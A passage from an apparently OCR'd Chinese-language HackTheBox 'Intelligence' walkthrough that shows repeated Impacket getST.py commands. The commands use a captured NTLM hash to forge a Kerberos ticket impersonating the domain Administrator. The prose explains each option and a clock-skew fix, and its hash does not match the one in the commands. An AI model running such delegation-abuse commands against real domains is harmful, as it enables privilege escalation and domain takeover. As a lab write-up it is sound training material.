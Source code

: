 ```bash
getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8  -impersonate administrator intelligence.htb/svc_int

getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes : 87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc_int

svc_int$:::87c12d4a0641b2b17fb5620cc2db2ca8

getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate Administrator
getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8  -impersonate Administrator


getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc_int
 getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate Administrator
```

## 获取门票

使用 getST.py 来制作票据。我需要传递以下选项：  
● -dc-ip 10.10.10.248  
● -spn www/dc.intelligence.htb- SPN（见下文）  
● -hashes :5e47bac787e5e1970cf9acdb5b316239- 我之前收集的 NTLM  
● -impersonate administrator- 我想要票的用户  
● intelligence.htb/svc\_int- 我正在运行的帐户  
要获取 SPN，请在 Bloodhound 中 svc\_int 用户的节点信息 -> 节点属性部分中获取：

[![](assets/1701071906-2a0b27166a137aa6cc24224b92c76768.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213218-0deff20c-8b97-1.png)

## 修复时间偏差

当我运行它时，它提示因为时间偏差而关闭。

[![](assets/1701071906-db7aaed188c1487039c505c1fa407801.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213231-15f1fbbc-8b97-1.png)
